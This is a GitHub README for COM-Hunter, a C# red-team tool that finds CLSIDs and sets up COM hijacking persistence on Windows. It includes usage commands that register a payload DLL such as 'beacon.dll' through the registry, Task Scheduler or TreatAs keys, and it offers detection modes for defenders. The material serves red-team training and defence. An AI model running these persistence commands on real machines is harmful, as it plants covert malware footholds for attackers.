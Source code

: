 # COM-Hunter
COM Hijacking VOODOO

COM-hunter is a COM Hijacking persistnce tool written in C# (4.8 .NET Framework)<br /><br />
This tool was inspired during the [RTO course](https://courses.zeropointsecurity.co.uk/courses/red-team-ops) of [@zeropointsecltd](https://twitter.com/zeropointsecltd)

## Features:

- Finds out entry valid CLSIDs in the victim's machine.
- Finds out valid CLSIDs via Task Scheduler in the victim's machine.
- Finds out if someone already used any of those valid CLSIDs in order to do COM persistence (LocalServer32/InprocServer32).
- Finds out if someone already used any of valid CLSID via Task Scheduler in order to do COM persistence (LocalServer32/InprocServer32).
- Tries to do automatically COM Hijacking Persistence with general valid CLSIDs (LocalServer32/InprocServer32).
- Tries to do automatically COM Hijacking Persistence via Task Scheduler.
- Tries to use "TreatAs" key in order to refere to a different component.

## License
Copyright (c) 2022 Nikos Vourdas<br /><br />
License under the [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](LICENSE)

## Usage:

```
[+] Usage:

    .\COM-Hunter.exe <mode> <options>

-> General Options:
    -h, --help  Shows help and exits.
    -v, --version   Shows current version and exits.
    -a, --about Shows info, credits about the tool and exits.

-> Modes:
    Search  Search Mode
    Persist Persist Mode

-> Search Mode:
    Get-Entry   Searches for valid CLSIDs entries.
    Get-Tasksch Searches for valid CLSIDs entries via Task Scheduler.
    Find-Persist Searches if someone already used a valid CLSID (Defence).
    Find-Tasksch Searches if someone already used a valid CLSID via Task Scheduler (Defence).

-> Persist Mode:
    General    Uses General method to apply COM Hijacking Persistence in Registry.
    Tasksch    Try to do COM Hijacking Persistence via Task Scheduler.
    TreatAs    Uses TreatAs Registry key to apply COM Hijacking Persistence in Registry.

-> General Usage:
    .\COM-Hunter.exe Persist General <clsid> <full_path_of_evil_dll>

-> Tasksch Usage:
    .\COM-Hunter.exe Persist Tasksch <full_path_of_evil_dll>

-> TreatAs Usage:
    .\COM-Hunter.exe Persist TreatAs <clsid> <full_path_of_evil_dll>

-> Example Usages:
    .\COM-Hunter.exe Search Get-Entry
    .\COM-Hunter.exe Search Find-Persist
    .\COM-Hunter.exe Persist General 'HKCU:Software\Classes\CLSID\...' C:\Users\nickvourd\Desktop\beacon.dll
    .\COM-Hunter.exe Persist Tasksch C:\Users\nickvourd\Desktop\beacon.dll

-> Example Format Valid CLSIDs:
    Software\Classes\CLSID\...
    HKCU:Software\Classes\CLSID\...
    HKCU:\Software\Classes\CLSID\...
    HKCU\Software\Classes\CLSID\...
    HKEY_CURRENT_USER:Software\Classes\CLSID\...
    HKEY_CURRENT_USER:\Software\Classes\CLSID\...
    HKEY_CURRENT_USER\Software\Classes\CLSID\...
```

